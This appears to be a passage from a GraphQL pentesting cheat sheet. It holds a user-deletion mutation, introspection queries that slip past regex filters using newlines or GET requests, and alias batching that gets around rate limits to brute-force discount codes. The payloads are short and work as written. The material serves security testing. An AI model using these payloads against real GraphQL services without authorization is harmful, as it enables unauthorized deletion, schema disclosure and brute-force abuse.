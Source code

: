 ```
mutation {
  deleteOrganizationUser(input: { id: 3 }) {
    user {
      id
      username
    }
  }
}
```

# Bypassing GraphQL instrospection defenses

## Regex Bypass

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. Try to use **spaces**, **new lines** and **commas** to bypass those regex.

```
{
	"query": "query{__schema
	{queryType{name}}}"
}
```

## GET Bypass

Try running the test over an alternative request method such as GET.

* Simple Introspection:

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

* Query example:

```
GET /graphql?query=query%20{%20getUser(id:1)%20{%20id%20username}%20}
```

#  Bypassing rate limiting using aliases 

Many endpoints will have some sort of rate limiter in place to prevent brute force attacks. Some rate limiters work based on the number of HTTP requests received rather than the number of operations performed on the endpoint. Because aliases effectively enable you to send multiple queries in a single HTTP message, they can bypass this restriction. 

```
query isValidDiscount($code: Int) {
    isvalidDiscount(code:"50FF"){
        valid
    }
    isValidDiscount2:isValidDiscount(code:"DISCOUNT5"){
        valid
    }
    isValidDiscount3:isValidDiscount(code:"DISCOUNT20"){
        valid
    }
}
```
